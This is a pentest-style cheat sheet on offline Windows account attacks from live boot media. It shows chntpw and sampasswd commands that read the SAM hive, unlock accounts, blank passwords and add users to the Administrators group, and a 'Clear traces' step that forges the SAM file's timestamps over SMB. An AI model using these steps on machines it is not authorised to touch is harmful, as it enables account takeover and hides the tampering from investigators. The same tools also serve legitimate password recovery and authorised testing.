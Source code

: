 # Live Removable Media

## 01 - Access The Boot Manager

When the system is booting it may prompt a specific keystroke to press by accessing the boot manager. If not depending on the vendor's motherboard, do a quick search of which keystroke to access the boot manager.

## 02 - Mount NTFS Drive

```
# fdisk -l

# mount -t ntfs /dev/sdX[n] /mnt/
```

## 03 - Enumerate Users from SAM HIVE File

```
# chntpw -l /mnt/Windows/System32/config/SAM

# sampasswd -l /mnt/Windows/System32/config/SAM
```

Enumerate groups.

```
# samusrgrp -l /mnt/Windows/System32/config/SAM
```

Enumerate users with groups.

```
# samusrgrp -L /mnt/Windows/System32/config/SAM
```

Check any of the usernames are locked.

```
# samunlock -l /mnt/Windows/System32/config/SAM
```

## 04 - Unlock Users from SAM HIVE File

```
# samunlock -U -u <username> /mnt/Windows/System32/config/SAM
```

## 05 - Reset Password from SAM HIVE File

### 5.1 - Specify Flags

Specify local username to reset password.

```
# chntpw -u <username> /mnt/Windows/System32/config/SAM

Remove password from current username

Select: [q] > 1

Add username with administrator privileges.

Select: [q] > 3

Save changes

Select: [q] > q

Hives that have changed:
 #   Name
 0   <SAM>
Write hive files? (y/n) [n] : y
 0 <SAM> - OK
```

Even `sampasswd` will work as well.

```
# sampasswd -r -u <username> /mnt/share/Windows/System32/config/SAM
```

### 5.2 - Interactive Prompt

```
# chntpw -i /mnt/Windows/System32/config/SAM
chntpw version 1.00 140201, (c) Petter N Hagen
Hive </mnt/Windows/System32/config/SAM> name (from header): <\SystemRoot\System32\Config\SAM>
ROOT KEY at offset: 0x001020 * Subkey indexing type is: 686c <lh>
File size 65536 [10000] bytes, containing 7 pages (+ 1 headerpage)
Used for data: 318/31736 blocks/bytes, unused: 28/13096 blocks/bytes.



<>========<> chntpw Main Interactive Menu <>========<>

Loaded hives: </mnt/Windows/System32/config/SAM>

  1 - Edit user data and passwords
  2 - List groups
      - - -
  9 - Registry editor, now with full write support!
  q - Quit (you will be asked if there is something to save)


What to do? [1] -> 9
Simple registry editor. ? for help.

> ?
Simple registry editor:
hive [<n>]             - list loaded hives or switch to hive numer n
cd <key>               - change current key
ls | dir [<key>]       - show subkeys & values,
cat | type <value>     - show key value
dpi <value>            - show decoded DigitalProductId value
hex <value>            - hexdump of value data
ck [<keyname>]         - Show keys class data, if it has any
nk <keyname>           - add key
dk <keyname>           - delete key (must be empty)
ed <value>             - Edit value
nv <type#> <valuename> - Add value
dv <valuename>         - Delete value
delallv                - Delete all values in current key
rdel <keyname>         - Recursively delete key & subkeys
ek <filename> <prefix> <keyname>  - export key to <filename> (Windows .reg file format)
debug                  - enter buffer hexeditor
st [<hexaddr>]         - debug function: show struct info
q                      - quit

>
```

Remove password from current username

```
Select: [q] > 1
```

Add username with administrator privileges.

```
Select: [q] > 3
```

Save changes

```
Select: [q] > q

Hives that have changed:
 #   Name
 0   <SAM>
Write hive files? (y/n) [n] : y
 0 <SAM> - OK
```

## 06 - Add Users in the group from SAM HIVE File

```
# samusrgrp -a -u <username> -g <group_ID> /mnt/share/Windows/System32/config/SAM
```

Append user in the users group.

```
# samusrgrp -a -u <username> -g 0x221 /mnt/share/Windows/System32/config/SAM
```

Append user in the administrators group.

```
# samusrgrp -a -u <username> -g 0x220 /mnt/share/Windows/System32/config/SAM
```

## 07 - Clear traces from SAM HIVE File

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ "utimes /Windows/System32/config/SAM [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss"

smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ "utimes /Windows/System32/config/SAM [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss"
```

## 08 - Unmount NTFS Drive

```
# umount /mnt
```

---
## References

### Source Repositories

- [Chntpw Source Repository](https://salsa.debian.org/debian/chntpw)

### Kali Tools

- [Kali Tools: `chntpw`](https://www.kali.org/tools/chntpw/)